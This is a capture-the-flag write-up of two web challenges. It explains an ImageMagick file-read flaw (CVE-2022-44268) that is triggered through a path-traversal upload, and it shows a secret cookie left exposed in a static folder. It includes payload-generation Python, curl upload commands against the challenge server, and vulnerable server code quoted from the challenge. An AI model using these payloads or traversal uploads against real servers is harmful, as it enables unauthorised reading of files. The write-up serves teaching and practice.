


## > Wizard Gallery (Web)
We are given a website where you can upload images and view them in a gallery.





We're also provided the source code. We can see a `flag.txt`, and we can assume that our objective is to read the `flag.txt` in the server's root directory.


The source code reveals some of the filters that were implemented to prevent file upload vulnerabilities. Allowed file extensions are only those that are known to be common image file types, and blocked extensions are the ones that are known to be able to execute code on the server.

In `allowed_file`, no checks are implemented for path traversal using slashes and `../`. This could come into use later.

```python
ALLOWED_EXTENSIONS = {'png', 'jpg', 'jpeg', 'gif', 'bmp', 'webp'}
BLOCKED_EXTENSIONS = {'exe', 'jar', 'py', 'pyc', 'php', 'js', 'sh', 'bat', 'cmd', 'com', 'scr', 'vbs', 'pl', 'rb', 'go', 'rs', 'c', 'cpp', 'h'}
MAX_CONTENT_LENGTH = 10 * 1024 * 1024

def allowed_file(filename):
    if '.' not in filename:
        return False
    basename = os.path.basename(filename)
    if '.' not in basename:
        return False
    extension = basename.rsplit('.', 1)[1].lower()
    if extension in BLOCKED_EXTENSIONS:
        return False
    return extension in ALLOWED_EXTENSIONS

def is_blocked_extension(filename):
    if '.' not in filename:
        return False
    basename = os.path.basename(filename)
    if '.' not in basename:
        return False
    extension = basename.rsplit('.', 1)[1].lower()
    return extension in BLOCKED_EXTENSIONS
```

Files are uploaded to the `/upload` endpoint via a POST request, in which the former filters are implemented.
To simplify things, we are not allowed to:
- not upload a file
- upload a file with an empty name
- upload files without an extension (prevent uploading of binaries)
- upload files in the blocked extensions list

uploading dangerous files will result in the `uploads` folder being wiped, which could be useful if we need to clean up any of our old messes

```python
@app.route('/upload', methods=['POST'])
def upload_file():
    # Can't upload nothing, right?
    if 'file' not in request.files:
        return jsonify({'success': False, 'message': 'No file selected! Please choose a magical image to upload.'}), 400
    
    file = request.files['file']
    
    if file.filename == '':
        return jsonify({'success': False, 'message': 'No file selected! Please choose a magical image to upload.'}), 400
    
    # Prevent uploading dangerous files
    if '.' not in file.filename:
        wipe_upload_directory()
        return jsonify({'success': False, 'message': '🚨 ATTACK DETECTED! Suspicious file without extension detected on the union network. All gallery files have been wiped for security. The Sorcerer\'s Council has been notified.'}), 403
    
    if is_blocked_extension(file.filename):
        wipe_upload_directory()
        return jsonify({'success': False, 'message': '🚨 ATTACK DETECTED! Malicious executable detected on the union network. All gallery files have been wiped for security. The Sorcerer\'s Council has been notified.'}), 403
    
    if file and allowed_file(file.filename):
        ...
```

after which, files are added to the /uploads folder in the project directory:

```python
if file and allowed_file(file.filename):
        original_filename = file.filename
        
        file_path = os.path.join(app.config['UPLOAD_FOLDER'], original_filename)
        
        file.save(file_path)
        
        file_size = get_file_size_mb(file_path)
        
        return jsonify({
            'success': True, 
            'message': f'🎉 Spell cast successfully! "{original_filename}" has been added to the gallery ({file_size} MB)',
            'redirect': '/gallery'
        })
    else:
        return jsonify({'success': False, 'message': 'Invalid file type! Only magical images (PNG, JPG, JPEG, GIF, BMP, WEBP) are allowed.'}), 400
```

we can view the files of `/uploads` by accessing the `/gallery` endpoint (which we are automatically redirected to after uploading our image). here, there's some interesting comments about a `logo-sm.png`. 

```python
@app.route('/gallery')
def gallery():
    return send_from_directory(PUBLIC_DIR, 'gallery.html')

@app.route('/api/gallery')
def api_gallery():
    uploaded_files = []
    
    if os.path.exists(app.config['UPLOAD_FOLDER']):
        for filename in os.listdir(app.config['UPLOAD_FOLDER']):
            # Don't want to show logo-sm.png on the gallery
            if filename == 'logo-sm.png':
                continue
            if allowed_file(filename):
                file_path = os.path.join(app.config['UPLOAD_FOLDER'], filename)
                file_size = get_file_size_mb(file_path)
                
                uploaded_files.append({
                    'filename': filename,
                    'original_name': filename,
                    'size_mb': file_size,
                    'extension': filename.rsplit('.', 1)[1].lower() if '.' in filename else 'unknown'
                })
    
    return jsonify(uploaded_files)

@app.route('/uploads/<filename>')
def uploaded_file(filename):
    # Make sure to handle the case where the file is logo-sm.png (not part of the vault)
    if filename == 'logo-sm.png':
        return "File not found", 404
    return send_from_directory(app.config['UPLOAD_FOLDER'], filename)
```

scrolling up and examining the `/logo-sm.png `endpoint, we can see that this image was formed by taking a base `logo.png` and running an executable at the path magick/bin/convert on the logo to resize the logo to ten percent.

```python
@app.route('/logo-sm.png')
def logo_small():
    # A smaller images looks better on mobile so I just resize it and serve that
    logo_sm_path = os.path.join(app.config['UPLOAD_FOLDER'], 'logo-sm.png')
    if not os.path.exists(logo_sm_path):
        os.system("magick/bin/convert logo.png -resize 10% " + os.path.join(app.config['UPLOAD_FOLDER'], 'logo-sm.png'))
    
    return send_from_directory(app.config['UPLOAD_FOLDER'], 'logo-sm.png')
```

from before, we know that there's a logo.png located in the project directory, and it is used in `index.html` for the logo.

```html
<div class="logo-container">
    
</div>
```

the logo is changed to logo-sm.png by calling the aforementioned endpoint upon the browser detecting a mobile device:

```html
    <script>
        function isMobileDevice() {
            return /Android|webOS|iPhone|iPad|iPod|BlackBerry|IEMobile|Opera Mini/i.test(navigator.userAgent) || window.innerWidth <= 768;
        }

        if (isMobileDevice()) {
            document.getElementById('logo-img').src = '/logo-sm.png';
        }
    </script>
```

we can assume this challenge involves some form of remote code execution to read the flag. the most likely vector for this is the file upload function, and the `os.system`() call that invokes magick.

doing some googling, we can find some reports about [the ImageTragick vulnerability](https://nvd.nist.gov/vuln/detail/cve-2022-44268) in the image editing software ImageMagick. when the file runs through imagemagick, the image pipeline will read the file's bytes and embed them into the output image.

this is because when processing a PNG image, the vulnerable code path mishandles embedded data chunks. if the embedded chunk is the string `profile` then ImageMagick will interpret the text string as a filename and will load the content as a raw profile.

this is because profile arguments in ImageMagick are additional metadata associated with an image, such as ICC color profiles or EXIF metadata.

instead of checking for actual binary data, ImageMagick also allows a file path string, which allows for LFI. ImageMagick will read the `profile` key in the image and attach the payload file content as additional metadata, which can then be retrieved.

we can confirm the presence of this vulnerability by examining the ImageMagick version from the config files:

```bash
--version)
  echo '7.1.0-49 Q16 HDRI'
  ;;
```

this embedding can be done through PoCs available online, such as this one by SybilScan on [GitHub](https://github.com/Sybil-Scan/imagemagick-lfi-poc) that can generate the payload.

let's go through the source code.

generate a gradient image and save to `gradient.png`:

```python
width = 255
height = 255
img = []
for y in range(height):
    row = ()
    for x in range(width):
        row = row + (x, max(0, 255 - x - y), y)
    img.append(row)

with open('gradient.png', 'wb') as f:
    w = png.Writer(width, height, greyscale=False)
    w.write(f, img)
```

inject the text chunk into the image metadata:

```python
info = PngImagePlugin.PngInfo()
info.add_text("profile", args.lfile)
im = Image.open("gradient.png")
im.save(args.output, "PNG", pnginfo=info)
```

run:



clear the uploads folder for a clean slate by uploading a 'dangerous' file:
```bash
curl -F 'file=@logo.png;filename=dangerousnoextensionfile1!!' http://play.scriptsorcerers.xyz:12345/upload
```

upload via `curl`, renaming the file to `../logo.png` on the server (since it's impossible to name it that on an operating system) and overriding the `logo.png` on the server:
```bash
curl -F 'file=@logo.png;filename=../logo.png' http://play.scriptsorcerers.xyz:12345/upload
```

we can then force the `convert` executable to run by accessing the `/logo-sm` endpoint, then download the modified `logo.png`.

within the profile of the modified image will be the hexed flag (image borrowed)


which we can decode to obtain the flag

flag: `scriptCTF{t00_much_m46ic_9faf01c3378a}`

## > Renderer (Web)
The source code is simple. We can read any file within the `/uploads` directory:
```python
@app.route('/render/<path:filename>')
def render(filename):
    return render_template('display.html', filename=filename)
```

The flag is not within `/uploads`, but is shown at the `/developer` endpoint:
```python
@app.route('/developer')
def developer():
    ...
    c = open('./static/uploads/secrets/secret_cookie.txt','w')
    c.write(sha256(os.urandom(16)).hexdigest())
    c.close()
    return f"Welcome! There is currently 1 unread message: {open('flag.txt').read()}"
    ...
```

The dashboard can be accessed if the browser's cookie `developer_secret_cookie` is equal to the value of the cookie stored on the server, which happens to be stored in `uploads/secrets/secret.cookie.txt`:


this developer cookie is however only set upon the user visiting the `/developer` route for the first time, and no cookie being initially set:

```python
@app.route('/developer')
def developer():
    cookie = request.cookies.get("developer_secret_cookie")
    correct = open('./static/uploads/secrets/secret_cookie.txt').read()
    if correct == '':
        c = open('./static/uploads/secrets/secret_cookie.txt','w')
        c.write(sha256(os.urandom(16)).hexdigest())
        c.close()
    correct = open('./static/uploads/secrets/secret_cookie.txt').read()
    if cookie == correct:
        ...
    else:
        return "You are not a developer!"
```

so to exploit this:
- initialise the cookie by visiting `/developer`
- read the cookie by visiting `/uploads/secrets/secret_cookie.txt'`
- manually set the cookie in your browser, then visit `/developer` again, to get the flag:

flag: `scriptCTF{my_c00k135_4r3_n0t_s4f3!}`

